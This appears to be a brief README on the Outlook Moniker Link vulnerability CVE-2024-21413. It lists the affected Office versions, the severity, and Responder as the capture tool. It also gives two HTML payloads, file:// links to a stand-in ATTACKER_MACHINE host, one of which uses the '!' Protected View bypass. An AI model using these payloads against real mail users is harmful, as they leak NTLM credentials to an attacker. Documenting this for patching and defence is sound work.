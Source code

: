 ## Moniker Link CVE-2024-21413

### Tool: Responder, SMTP client

### Severity: Critical

### Scoring: 9.8

### MS Article: https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413

### Affected MS Office releases:

#### 1) Microsoft Office LTSC 2021	(Version: from 19.0.0)

#### 2) Microsoft 365 Apps for Enterprise (Version: from 16.0.1)

#### 3) Microsoft Office 2019 (Version: from 16.0.1)

#### 4) Microsoft Office 2016 (Version: from 16.0.0 before 16.0.5435.1001)

### Example payload: (Moniker Link type: file://)

#### 1) <p><a href="file://ATTACKER_MACHINE/test">Click me</a></p<

### Outlook's Protected view bypass: (Special character: !)

#### 1) <p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p<

